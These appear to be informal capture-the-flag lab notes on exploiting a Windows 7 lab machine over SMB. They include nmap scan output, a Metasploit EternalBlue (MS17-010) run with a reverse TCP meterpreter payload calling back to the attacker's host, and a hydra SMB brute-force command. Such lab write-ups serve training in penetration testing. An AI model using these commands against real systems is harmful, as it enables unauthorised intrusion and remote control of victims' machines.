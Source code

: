 ```
C:\home\kali> nmap -sC -sV -Pn 10.10.10.40
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-16 01:54 EST
Nmap scan report for 10.10.10.40
Host is up (0.21s latency).
Not shown: 798 closed tcp ports (conn-refused), 194 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows


```

from https://nmap.org/book/port-scanning.html


Port 445 (Microsoft-DS)—For SMB communication over IP with MS Windows services (such as file/printer sharing).

Port 139 (NetBIOS-SSN)—NetBIOS Session Service for communication with MS Windows services (such as file/printer sharing). This has been supported on Windows machines longer than 445 has.

https://www.hackingarticles.in/smb-penetration-testing-port-445/

```
C:\home\kali> nmap -p 445 -A -Pn 10.10.10.40
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-16 02:09 EST
Nmap scan report for 10.10.10.40
Host is up.

PORT    STATE    SERVICE      VERSION
445/tcp filtered microsoft-ds

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.54 seconds
```
trying eternal blue

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.10.10.40
rhost => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 10.10.6.156:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[-] 10.10.10.40:445       - Rex::ConnectionTimeout: The connection with (10.10.10.40:445) timed out.
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[-] 10.10.10.40:445 - The target is not vulnerable.
[*] Exploit completed, but no session was created.

```

did not work

we can try and brute force with hydra

```
hydra -L user.txt -P pass.txt 192.168.1.101 smb
```

once we have login credentials we can then connect to the machine using meterpreter shell

target was vulnerable for a brief while t ms17

```

[*] Started reverse TCP handler on 10.10.6.156:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[-] 10.10.10.40:445 - Rex::ConnectionTimeout: The connection with (10.10.10.40:445) timed out.
[*] Exploit completed, but no session was created.

```

but then after tha it just shows that target isnt vulnerable

![](2023-02-16-03-36-20.png)

the trick was smb exploit eternalblue


